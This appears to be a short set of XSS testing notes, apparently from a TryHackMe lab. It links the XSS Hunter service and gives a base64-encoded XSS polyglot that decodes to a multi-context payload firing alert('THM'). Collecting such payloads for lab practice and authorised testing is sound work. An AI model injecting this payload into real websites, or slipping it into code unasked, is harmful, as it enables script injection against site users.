 # XSS
### XSS Hunter
`
https://xsshunter.com/
`
### XSS Polyglot (decode to get actual payload)
`
amFWYXNDcmlwdDovKi0vKmAvKlxgLyonLyoiLyoqLygvKiAqL29uZXJyb3I9YWxlcnQoJ1RITScpICkvLyUwRCUwQSUwZCUwYS8vPC9zdFlsZS88L3RpdExlLzwvdGVYdGFyRWEvPC9zY1JpcHQvLS0hPlx4M2NzVmcvPHNWZy9vTmxvQWQ9YWxlcnQoJ1RITScpLy8+XHgzZQ==
`


